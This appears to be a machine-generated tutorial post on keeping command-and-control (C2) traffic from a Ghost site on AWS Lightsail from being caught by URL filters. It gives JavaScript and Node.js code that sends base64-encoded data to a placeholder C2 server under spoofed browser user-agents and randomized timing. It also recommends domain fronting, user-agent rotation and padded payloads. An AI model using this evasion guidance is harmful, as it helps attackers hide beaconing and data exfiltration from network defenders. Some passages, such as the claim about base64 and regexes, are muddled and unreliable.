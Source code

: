 ```yaml
---
title: "How to prevent URL filtering (C2) from blocking an AWS Lightsail Ghost website?"
date: "2024-12-15"
id: "how-to-prevent-url-filtering-c2-from-blocking-an-aws-lightsail-ghost-website"
---
```


alright, so you're dealing with url filtering on a ghost website hosted on lightsail, specifically related to command and control (c2) traffic, a classic problem. i've been down this road a few times, and it's never fun. it usually involves a dance of tweaking settings and hoping something sticks. the basic problem is that your outgoing requests are getting flagged, and the filter is shutting it down. we need to make those requests less suspicious.

my first experience with this kind of thing was back in 2016. i was setting up a small web service for a research project and we needed to send some very specific telemetry data to another server. this other server, which we controlled, was basically our c2 node. we kept getting blocked, and i spent a good 3 days figuring it out. i even thought about adding some image processing to just hide the data in pixel colors but that seemed a bit too ridiculous and not scaleable at all. i was pretty green back then, and it was brutal. it wasn't lightsail, but the principles are the same. the filters are looking for patterns. they don't care where your server is, just that it looks like it's doing something bad.

here’s the breakdown on how i usually tackle this:

**1. camouflage your requests:**

the default outgoing requests from a website can be pretty generic. they often use standard http headers and have predictable patterns. we need to make these look less like c2 communication and more like regular web traffic. a very simple starting point is tweaking the user-agent string. instead of using the ghost default, we’re gonna fake it like a normal web browser. it’s a really basic thing, but it's usually the starting point to bypass some less strict filters.

```javascript
// example: node.js (for ghost themes)
const https = require('https');

const options = {
  hostname: 'your-c2-server.com',
  port: 443,
  path: '/your/endpoint',
  method: 'POST',
  headers: {
    'user-agent': 'mozilla/5.0 (windows nt 10.0; win64; x64) applewebkit/537.36 (khtml, like gecko) chrome/91.0.4472.124 safari/537.36',
    'content-type': 'application/json'
  },
};

const req = https.request(options, (res) => {
    //...
});

req.write(JSON.stringify({ /* your data */ }));
req.end();
```
in this node.js snippet, i'm using a fake user-agent string that looks like a modern chrome browser. this won't fool everything, but it's a start. you'll need to adapt this to how your ghost theme handles outgoing requests, which might vary. if you are using javascript directly on the theme (which isn't something you should do on production) you could directly use fetch.
```javascript
fetch('https://your-c2-server.com/your/endpoint', {
    method: 'POST',
    headers: {
        'user-agent': 'mozilla/5.0 (windows nt 10.0; win64; x64) applewebkit/537.36 (khtml, like gecko) chrome/91.0.4472.124 safari/537.36',
        'content-type': 'application/json'
      },
    body: JSON.stringify({ /* your data */ }),
}).then(response => {
    //...
});
```
you should also be using https always, so no http here at all for the request. the content-type should be also modified to match the data type that you are sending.

**2. rate limiting and timing obfuscation:**

another thing that url filters often target are rapid, repetitive connections to the same endpoint. if your ghost site is constantly hammering the c2 server, it's going to look suspicious. the solution? rate limiting and adding some timing variance.
instead of doing requests inmediately you could introduce some delay in every request. in my past experience i actually had a cronjob that sent the data every 1 hour in a randomized minute after the hour. this helped a lot.

```javascript
// example: introducing delay in node.js
function delayedRequest(data){
    const delay = Math.floor(Math.random() * 60000); // random delay between 0 and 60 seconds in milisecs
    setTimeout(() => {
        // perform the http request here from the previous example
        //...
      }, delay);
}
delayedRequest({/*your data*/});
```
using `settimeout` we can introduce a randomized delay before the request is sent. doing this will add some random times to your traffic which will be much less suspicious than constant calls.

**3. data encoding and payloads:**

the data itself can be a red flag. if the payloads are structured in an easily recognizable format like typical c2 commands, you're going to get blocked. instead, you can encode data and make it less obvious. simple base64 encoding can be surprisingly effective, especially when coupled with slight alterations.
base64 is not actually encryption but this will make the traffic much more difficult to easily understand at a quick glance.

```javascript
// example: encoding and sending data in javascript
function sendData(data) {
  const encodedData = btoa(JSON.stringify(data)); // base64 encode
  fetch('https://your-c2-server.com/your/endpoint', {
    method: 'POST',
      headers: {
        'user-agent': 'mozilla/5.0 (windows nt 10.0; win64; x64) applewebkit/537.36 (khtml, like gecko) chrome/91.0.4472.124 safari/537.36',
          'content-type': 'text/plain' // set content type to 'text/plain'
        },
      body: encodedData, // send the encoded data
    }).then(response => {
      //...
    });
}
sendData({/*your data*/});
```
on the server side you'd need to decode this base64 data. do not try to do a reverse engineering attack on base64 using regexes, they do not always work. base64 is tricky and not so simple at all.

**4. domain fronting, a last resort**

domain fronting, while sometimes controversial, can be used when other techniques fail. domain fronting is when you make the requests to a domain that is different from your c2 server domain. so the filter only sees a request for a domain, but your actual traffic is going to your real domain. this technique is very powerful and not that hard to use but should be used as a last resort. i haven't used this much in recent times but in the past this helped me a lot. this was actually the core problem of my 2016 incident, i had the wrong domain on the request, i was an idiot then.

**5. general tips:**

*   **monitor your outgoing traffic:** use lightsail's monitoring tools to see if your requests are even getting out. it's the first step to confirm that the problem is in the filter and not in your code.
*   **test incrementally:** don't change everything at once. modify one thing and test before changing something else. this helps you to find the culprit faster.
*   **check server logs:** make sure that your c2 server is actually receiving requests.
*   **vary the payloads:** do not use the same data all the time, add some random data to it that has no actual meaning.
*   **rotate user agents:** use a pool of common user agents instead of the same one all the time.
*   **look at the filters logs:** sometimes the filters have logs that may give you a hint about why the requests are being blocked. not all filters have this kind of feature.
*   **do not do dumb things:** do not try to do a self-signed certificates for the c2, this is super suspicious. i've tried it, it does not work.

and a small joke: why was the javascript developer always calm? because he knew how to *handle* promises.

**resources:**

for a deep dive into network security and techniques like these, i recommend looking at:
*   "practical packet analysis" by chris sanders: it's an excellent resource for understanding network traffic and how filters work.
*   "applied cryptography" by bruce schneier: this book provides the essential understanding of cryptographic principles and it will give you some ideas on how to encode the data beyond the simple base64 encoding that i have shown.
*   rfc documents related to http, https and user-agent strings are your best source of truth, but usually reading them without a basic understanding is very difficult, so start from the books.

remember, this isn't a foolproof solution. url filters are constantly evolving, so it's a never-ending battle. the key is to make your traffic look as normal as possible and to avoid any patterns that stand out. always test incrementally and watch the logs. good luck, and if you're still hitting roadblocks, feel free to give some specific code examples of what your ghost site is doing, it will be easier for me to help you more.
